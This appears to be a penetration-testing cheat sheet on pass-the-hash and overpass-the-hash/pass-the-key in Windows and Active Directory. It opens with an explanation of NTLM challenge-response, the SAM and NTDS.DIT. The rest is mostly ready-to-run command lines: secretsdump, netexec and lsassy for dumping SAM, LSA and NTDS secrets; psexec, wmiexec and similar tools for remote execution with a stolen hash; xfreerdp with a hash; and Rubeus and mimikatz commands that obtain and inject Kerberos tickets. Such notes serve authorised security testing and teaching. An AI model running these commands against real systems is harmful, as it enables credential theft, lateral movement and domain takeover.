



# Pass-the-Hash

### Theory
An attacker knowing a user's NT hash can use it to authenticate over NTLM (pass-the-hash) (or indirectly over Kerberos with overpass-the-hash).

### NTLM Protocol
The NTLM protocol is an authentication protocol used in Microsoft environments. In particular, it allows a user to prove their identity to a server in order to use a service offered by this server.


**There are two possible scenarios**

- 1. Either the user uses the credentials of a local account of the server, in which case the server has the user’s secret in its local database and will be able to authenticate the user;

- 2. Or in an Active Directory environment, the user uses a domain account during authentication, in which case the server will have to ask the domain controller to verify the information provided by the user.

In both cases, authentication begins with a challenge/response phase between the client and the server.

**Challenge - Response**
The challenge/response principle is used so that the server verifies that the user knows the secret of the account he is authenticating with, without passing the password through the network. 
This is called a zero-knowledge proof. 


**There are three steps in this exchange**
- 1. Negotiation: The client tells the server that it wants to authenticate to it (NEGOTIATE_MESSAGE).

- 2. Challenge: The server sends a challenge to the client. This is nothing more than a 64-bit random value that changes with each authentication request (CHALLENGE_MESSAGE).

- 3. Response: The client encrypts the previously received challenge using a hashed version of its password as the key, and returns this encrypted version to the server, along with its username and possibly its domain (AUTHENTICATE_MESSAGE).



**Authentication secret**
We said that the client uses a hashed version of their password as a key for the following reason: To avoid storing user passwords in clear text on the server. 
It’s the password’s hash that is stored instead. This hash is now the NT hash, which is nothing but the result of the MD4 function, without salt, nothing.

when the client authenticates, it uses the MD4 fingerprint of its password to encrypt the challenge.

**Authentication**
As explained earlier, there are two different scenarios. 

The first is that the account used for authentication is a local account, so the server has knowledge of this account, and it has a copy of the account’s secret. 

The second is that a domain account is used, in which case the server has no knowledge of this account or its secret. It will have to delegate authentication to the domain controller.

**Local account**
In the case where authentication is done with a local account, the server will encrypt the challenge it sent to the client with the user’s secret key, or rather with the MD4 hash of the user’s secret. It will then check if the result of its operation is equal to the client’s response, proving that the user has the right secret. 

If not, the key used by the user is not the right one since the challenge’s encryption does not give the expected one.

In order to perform this operation, the server needs to store the local users and the hash of their password. The name of this database is the SAM (Security Accounts Manager). The SAM can be found in the registry, especially with the regedit tool, but only when accessed as SYSTEM. It can be opened as SYSTEM with psexec:

```
psexec.exe -i -s regedit.exe
```



A copy is also on disk in C:\Windows\System32\SAM.

So it contains the list of local users and their hashed password, as well as the list of local groups. Well, to be more precise, it contains an encrypted version of the hashes. But as all the information needed to decrypt them is also in the registry (SAM and SYSTEM), we can safely say that their hashed version is stored there.


**Domain account**

When an authentication is done with a domain account, the user’s NT hash is no longer stored on the server, but on the domain controller. The server to which the user wants to authenticate receives the answer to its challenge, but it is not able to check if this answer is valid. It will delegate this task to the domain controller.

To do this, it will use the Netlogon service, which is able to establish a secure connection with the domain controller. This secure connection is called Secure Channel. This secure connection is possible because the server knows its own password, and the domain controller knows the hash of the server’s password.

The domain controller will look for the user’s NT hash in its database. For the domain controller, it’s not in the SAM, since it’s a domain account that tries to authenticate. This time it is in a file called NTDS.DIT, which is the database of all domain users.



Same as before, the server sends a challenge (1) and the client jsnow encrypts this challenge with the hash of its secret and sends it back to the server along with its username and the domain name (2). This time the server will send this information to the domain controller in a Secure Channel using the Netlogon service (3). Once in possession of this information, the domain controller will also encrypt the challenge using the user’s hash, found in its NTDS.DIT database (4), and will then be able to compare its result with the one returned by the user. If it is the same (5) then the user is authenticated. Otherwise, the user has not provided the right secret. In both cases, the domain controller transmits the information to the server (6).

**NT hash limits**
If you’re still following, you will have understood that the plaintext password is never used in these exchanges, but the hashed version of the password called NT hash. It’s a simple hash of the plaintext password.

If you think about it, stealing the plaintext password or stealing the hash is exactly the same. Since it is the hash that is used to respond to the challenge/response, being in possession of the hash allows one to authenticate to a server. Having the password in clear text is not useful at all.

We can even say that having the NT hash is the same as having the password in clear text, in the majority of cases.

**Pass the Hash**
It is therefore understandable that if an attacker knows the NT hash of a local administrator of a machine, he can easily authenticate to that machine using this hash. Similarly, if he has the NT hash of a domain user who is member of a local administration group on a host, he can also authenticate to that host as a local administrator.

If one of these hosts is compromised and the attacker extracts the NT hash from the workstation’s local administrator account, as all the other workstations have the same administrator account with the same password, then they will also have the same NT hash. The attacker can then use the hash found on the compromised host and replay it on all the other hosts to authenticate on them.

### Credential Dumping 

```
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

netexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds

netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -u $USER -H $NThash $TARGETS
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS
```

### Command Execution

```
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```
**NetExec**
```
netexec winrm $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -x whoami
netexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami
```
**Mimikatz**
```
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
```

### RDP Access
```
xfreerdp /u:$USER /d:$DOMAIN /pth:'LMhash:NThash' /v:$TARGET /h:1010 /w:1920
```

# Pass The Key / Over-Pass-the-Hash

**Theory**
The Kerberos authentication protocol works with tickets in order to grant access. A Service Ticket (ST) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to ASREProast).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called pass-the-key.

Kerberos offers 4 different key types: DES, RC4, AES-128 and AES-256.

- 1. When the RC4 etype is enabled, the RC4 key can be used. The problem is that the RC4 key is in fact the user's NT hash. **Using a an NT hash to obtain Kerberos tickets is called overpass the hash**.

- 2. When RC4 is disabled, other Kerberos keys (DES, AES-128, AES-256) can be passed as well. This technique is called pass the key. In fact, only the name and key used differ between overpass the hash and pass the key, the technique is the same.

### Commands


**Unix**
```
# with an NT hash (overpass-the-hash)
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key (pass-the-key)
getTGT.py -aesKey 'KerberosKey' $DOMAIN/$USER@$TARGET
```

```
secretsdump.py -k -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```

**Windows**

**Rubeus**
```
# with an NT hash (Over-pass-the-Hash)
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key (pass-the-key)
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$aes128_key /ptt

# with an AES 256 key (pass-the-key)
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$aes256_key /ptt
```

**Mimikatz**
```
# with an NT hash
sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

# with an AES 128 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

# with an AES 256 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
```  

For both mimikatz and Rubeus, the /ptt flag is used to automatically inject the ticket.

